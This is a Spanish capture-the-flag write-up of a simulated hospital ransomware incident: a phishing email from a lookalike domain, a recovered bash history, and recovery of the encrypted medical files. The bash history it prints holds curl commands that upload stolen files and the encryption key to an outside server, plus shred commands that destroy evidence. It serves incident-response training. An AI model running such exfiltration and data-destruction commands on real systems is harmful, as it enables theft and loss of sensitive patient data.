# Ransomware Hospital 1

> CTF Track Securiters - RootedCON 2026

> 27/02/2026 18:00 CEST - 01/03/2026 18:00 CEST

* Categoría: Research
* Autor: Kesero
* Dificultad: ★★☆
* Etiquetas: Ciberinteligencia, Investigación

## Descripción
    
    El Hospital Aguilera ha sido víctima de un ataque de ransomware a gran escala. Todavía no se sabe el alcance exacto del ciberataque, pero se confirma que ha comprometido archivos médicos críticos de los pacientes de todo el hospital.

    Como analista del equipo, debes apoyar al CISO (Adrián Jiménez) en la respuesta técnica al incidente. Se te ha facilitado un volcado de los correos corporativos que tuvieron lugar el día del ciberataque junto con el flujo de información interna generado tras detectar la intrusión.

    En este caso, tu objetivo principal es recuperar los archivos médicos cifrados. Necesitamos conocer la magnitud del ciberataque y traer de vuelta los historiales clínicos cuanto antes.

    En situaciones de crisis, la diferencia entre el éxito y el desastre radica en la capacidad de mantener la calma e hilar fino. La vida de los pacientes depende de conseguirlo.

    http://gmail.challs.caliphallabs.com

    Nota: La flag no contiene el carácter guión (-).


## Archivos
    
    http://gmail.challs.caliphallabs.com



## Introducción

Esta serie de retos ha sido diseñada con fines estrictamente educativos para simular un escenario de ciberataque realista en un entorno controlado. El objetivo es entrenar capacidades de análisis, respuesta ante incidentes y ciberinteligencia. En ningún caso se pretende incentivar o promover conductas ilícitas, ni el uso de estas técnicas fuera de un marco ético y legal.

En este caso, se plantea un ataque de ransomware al Hospital Aguilera, en el que un atacante ha accedido al servidor de radiografías gracias a un ataque de phishing dirigido al Doctor García.

## Gmail


En el apartado de `gmail`, se encuentran varios correos corporativos pertenecientes a Adrián Jiménez, actual CISO, que tuvieron lugar el día del ciberataque.

Entre ellos se encuentran correos de LinkedIn, correos reenviados de Óscar sobre el phishing introducido al Doctor García, un correo de Óscar avisando al CISO sobre el ciberataque acontecido y por último, un correo de extorsión por parte del atacante llamado "Louden" 

### Phishing Doctor García

En los correos reenviados de Óscar sobre el phishing, podemos observar cómo el ciberdelincuente obtuvo acceso al sistema mediante la suplantación de Óscar, generando urgencia en el doctor por una supuesta "brecha de seguridad".



Si prestamos atención, podemos ver que la dirección de correo electrónico es falsa, debido a que la original se presenta como `@aguilerahospital.com`. En cambio, el presentado en dicho correo pertenece a `@aguilerahosp1tal.com`. Un cambio sutil que se hace poco perceptible debido a la gravedad de la situación.

El Doctor García asistió a dicha reunión y a partir de ese momento, sus credenciales fueron cambiadas.







### Correos LinkedIn

En estos correos no hay información útil. Simplemente se trata de correos de "relleno" hacia Adrián Jiménez. A su vez, hay un pequeño guiño sobre el LinkedIn corporativo de "Caliphal Labs"



### Correo aviso Óscar

En este correo se presenta el informe de lo sucedido al CISO. En él se informa sobre la situación del hospital y las contingencias realizadas, otorgando el archivo `Evidence.zip` perteneciente a un volcado del ordenador del Doctor García.



### Correo extorsión Louden

En última instancia, se presenta un correo de extorsión procedente del usuario Louden el cual informa de que los archivos médicos del hospital han sido cifrados. Además exige un rescate por la información e insta a la negociación tanto de la información como de la clave de recuperación.

Para ello, publica una URL .onion junto a un código de invitación al chat privado de negociación.



## Obtención de la evidencia

Como se ha mencionado anteriormente, la evidencia procede de uno de los correos anteriores, donde se proporciona un enlace a la descarga de los archivos extraídos del ordenador del Doctor García.

En dicho archivo `Evidence.zip` se pueden encontrar los siguientes ficheros:

```
Evidence.zip
    ├── bash_history
    ├── bash_logout
    ├── bashrc
    ├── profile
    ├── files.enc
    └── pwned.png
```

## Análisis de la evidencia

Si abrimos el archivo `.bash_history` se obtiene el historial de comandos acontecido en el sistema:

```
apt install xrdp
systemctl enable --now xrdp
echo $PWD
cd /home/drgarcia
cd medical-files/
ls
cd x-ray/
ls -la
cd ..
cd precursor-lesions/
ls -la
cd ../../
zip -r -s 400m files.zip medical-files/
curl -s -c cookies.txt -d "user=louden&password=M4st4rH4ck3r567!" "http://challs.caliphallabs.com:18971/login"
for part in files.z* files.zip; do curl -b cookies.txt -X POST -F "file=@$part" "http://challs.caliphallabs.com:18971/upload/Hospital"; done
git clone http://challs.caliphallabs.com:34698/louden/ransomware-hospital
mv ransomware-hospital/* ..
python --version
pip install -r requirements.txt
python3 ransom.py
cat key.txt
curl -b cookies.txt -X POST -F "file=@key.txt" "http://challs.caliphallabs.com:18971/upload/Hospital"
find medical-files/ -type f -exec shred -u {} \;
find assets/ -type f -exec shred -u {} \;
find src/ -type f -exec shred -u {} \;
rm -rf medical-files/ ransomware-hospital/ assets/ src/
shred -u files.z* files.zip cookies.txt key.txt ransom.py README.md requirements.txt
xfconf-query -c xfce4-desktop -p /backdrop/screen0/monitor0/workspace0/last-image -s /home/drgarcia/pwned.png
```

Gracias a este archivo se obtiene los movimientos que tuvo el ciberdelincuente en el ordenador del Doctor García.

Se puede observar cómo el doctor se descargó un software legítimo sobre escritorio remoto para darle acceso al supuesto "Óscar" y lo puso en funcionamiento. En este punto, Louden tiene acceso al sistema y empieza el ciberataque.

Primero observa los archivos que hay en el sistema y obtiene algo muy jugoso: archivos médicos. Una vez conoce los archivos existentes, se autentica en el servidor "http://challs.caliphallabs.com:18971/" y comienza a comprimir y trocear la información para posteriormente enviarla al mismo servidor.

Una vez tiene la información se descarga una herramienta de git procedente del servidor "http://challs.caliphallabs.com:34698/louden/ransomware-hospital" y cifra los archivos de la carpeta medical-files/.

Una vez los datos han sido cifrados, se transfiere en última instancia la clave generada del cifrado, al servidor http://challs.caliphallabs.com:18971/ nuevamente

Su siguiente movimiento será establecer como fondo de pantalla la imagen "pwned.png":



Y en última instancia, borra evidencias de todo lo sucedido para no dejar rastro.

En el archivo `.bash_logout` se obtiene lo siguiente:

```
# ~/.bash_logout: executed by bash(1) when login shell exits.

# when leaving the console clear the screen to increase privacy

if [ "$SHLVL" = 1 ]; then
    [ -x /usr/bin/clear_console ] && /usr/bin/clear_console -q
fi

hystory -c
shred -u ~/bash_history
```

Gracias a que el ciberdelincuente Louden escribió mal el comando `hystory -c` al abandonar la sesión, el siguiente comando `shred -u ~/bash_history` no se ejecutó por error a la de salir. Esto permitió que el archivo `.bash_history`, no se eliminara del sistema. 

## Obtención código del ransomware original

Si accedemos a la URL http://challs.caliphallabs.com:34698/louden/ransomware-hospital, se observa que se trata de una plataforma de distribución de código llamada Gitea y en específico se trata de un repositorio sobre una herramienta de ransomware:



Dicho repositorio es una herramienta de ransomware básico para cifrar y descifrar archivos, aunque según Louden, su creador, se reserva la herramienta de descifrado.



## Obtención de la clave y el archivo de descifrado

Si se observa el momento donde Louden envía los archivos médicos, estos se envían a través de la URL "http://challs.caliphallabs.com:18971/login" y además se pueden observar las credenciales de inicio de sesión en texto claro "user=louden&password=M4st4rH4ck3r567!"

Si se visita dicha URL, se obtiene lo siguiente:



Si se introducen las credenciales obtenidas, se puede acceder al interior de la nube privada y ver los archivos que Louden envió. Entre ellos se encuentran varias plataformas donde Louden ha desplegado su ransomware.



Entre ellas, se encuentra el hospital y en su carpeta se tendrá acceso tanto a la clave de descifrado como a la funcionalidad de descifrado guardada por Louden.



## Descifrado de archivos

Una vez se obtiene el código con la funcionalidad de descifrado y la clave utilizada en el cifrado, se pueden restaurar los archivos médicos.

Para ello se utilizará el propio código que Louden desarrolló en su repositorio, solo se tendrá que sustituir el archivo `decrypt.py` por el obtenido en sus servidores.

```
┌──(User㉿user)-[~]
└─$ git clone http://challs.caliphallabs.com:34698/louden/ransomware-hospital

    cd ransomware-hospital/src
    rm -r decrypt.py
    nano decrypt.py # Copiamos el decrypt extraído
    cd ..
    nano key.txt # Copiamos la clave extraída
    mv ../files.enc . # Movemos el files.enc a la raíz del repositorio
    pip install -r requirements.txt

    python ransom.py

             uu$$$$$$$$$$$uu
          uu$$$$$$$$$$$$$$$$$uu
         u$$$$$$$$$$$$$$$$$$$$$u
        u$$$$$$$$$$$$$$$$$$$$$$$u
       u$$$$$$$$$$$$$$$$$$$$$$$$$u
       u$$$$$$*   *$$$*   *$$$$$$u
       *$$$$*      u$u       $$$$*
        $$$u       u$u       u$$$
        $$$u      u$$$u      u$$$
         *$$$$uu$$$   $$$uu$$$$*
          *$$$$$$$*   *$$$$$$$*
            u$$$$$$$u$$$$$$$u
             u$*$*$*$*$*$*$u
  uuu        $$u$ $ $ $ $u$$       uuu
  u$$$$       $$$$$u$u$u$$$       u$$$$
  $$$$$uu      *$$$$$$$$$*     uu$$$$$$
u$$$$$$$$$$$uu    *****    uuuu$$$$$$$$$
$$$$***$$$$$$$$$$uuu   uu$$$$$$$$$***$$$*
 ***      **$$$$$$$$$$$uu **$***
          uuuu **$$$$$$$$$$uuu
 u$$$uuu$$$$$$$$$uu **$$$$$$$$$$$uuu$$$
 $$$$$$$$$$****           **$$$$$$$$$$$*
   *$$$$$*                      **$$$$**
     $$$*                         $$$$* 
     _    _                 _ _        _   
    | |  | |               (_) |      | |  
    | |__| | ___  ___ _ __  _| |_ __ _| |  
    |  __  |/ _ \/ __| '_ \| | __/ _` | |  
    | |  | | (_) \__ \ |_) | | || (_| | |  
    |_|__|_|\___/|___/ .__/|_|\__\__,_|_|  
                     | |
     _____           |_|
    |  __ \                             
    | |__) |__ _ _ __ _ __  ___  _ __ ___  
    |  _  // _` | '_ \/ __|/ _ \| '_ ` _ \ 
    | | \ \ (_| | | | \__ \ (_) | | | | | |
    |_|  \_\__,_|_| |_|___/\___/|_| |_| |_|
                                            
                                    by Louden       

1. Cifrar archivos médicos
2. Descifrar archivos usando 'key.txt'
3. Salir

Selecciona una opción [1-3]: 2

[*] Inicializando el proceso de descifrado...
[*] Iniciando el descifrado de files.enc...
    [X-RAYS] Restored: series-00005.dcm
    [X-RAYS] Restored: series-00013.dcm
    [X-RAYS] Restored: series-00002.dcm
    [X-RAYS] Restored: series-flag-00028.dcm
    [X-RAYS] Restored: series-00019.dcm
    [X-RAYS] Restored: series-00021.dcm
    [X-RAYS] Restored: series-00014.dcm
    [X-RAYS] Restored: series-00007.dcm
    [X-RAYS] Restored: series-00008.dcm
    [X-RAYS] Restored: series-00024.dcm
    [X-RAYS] Restored: series-00015.dcm
    (...)
```

Al finalizar la ejecución del propio ransomware, se ha creado una carpeta llamada `medical-files/`.

## Visualizar archivos DICOM

En los archivos descifrados se encuentran historiales clínicos, radiografías y resonancias.


Si se observan los archivos descifrados, hay uno que resalta a la vista. Dicho archivo es `series-flag-00028.dcm`. Si lo analizamos con el binario `file`, se obtiene lo siguiente:

```
    ┌──(User㉿user)-[~]
    └─$ file series-flag-00028.dcm

    series-flag-00028.dcm: DICOM medical imaging data
```

Un archivo con la extensión .dcm es un archivo de imagen médica que utiliza el estándar DICOM (Digital Imaging and Communications in Medicine) y almacena imágenes de alta resolución, como resonancias, tomografías y radiografías.

